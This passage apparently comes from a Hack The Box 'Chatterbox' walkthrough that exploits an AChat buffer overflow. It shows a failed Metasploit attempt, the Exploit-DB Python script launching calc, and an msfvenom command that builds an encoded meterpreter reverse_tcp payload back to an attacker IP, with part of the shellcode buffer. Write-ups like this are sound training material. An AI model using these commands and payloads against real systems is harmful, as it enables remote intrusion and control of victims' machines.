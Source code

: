 However, it just fails:

```

msf exploit(windows/misc/achat_bof) > run

[-] Exploit failed: No encoders encoded the buffer successfully.
[*] Exploit completed, but no session was created.

```

I tried with different payloads, and with Wireshark up on the Windows VM, and no traffic ever reached the VM.

##### Exploit-DB Python Script

There’s a [python script](https://www.exploit-db.com/exploits/36025/) on exploit-db for this exploit. In it’s default state, it will launch calc. We’ll update the server address to the IP of the Windows VM, and give it a run:

```

root@kali# python achat-exploit.py
---->{P00F}!

```

On Windows:

![](https://0xdfimages.gitlab.io/img/chatterbox-achat-calc.png)

So we know it works. We’ll also notice that AChat dies when the exploit is run, which is going to make getting onto the actual box a real pain.

### Exploit Chatterbox

#### script + meterpreter - fail

The script comes with shellcode to pop `calc.exe` and an example `msfvenom` command run to generate it. So it makes sense to use `msfvenon` to generate a more useful payload. We’ll start with `meterpreter`:

```

root@kali# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.157 LPORT=4433 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 808 (iteration=0)
x86/unicode_mixed chosen with final size 808
Payload size: 808 bytes
Final size of python file: 3872 bytes
buf =  ""
buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += "\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
...

```
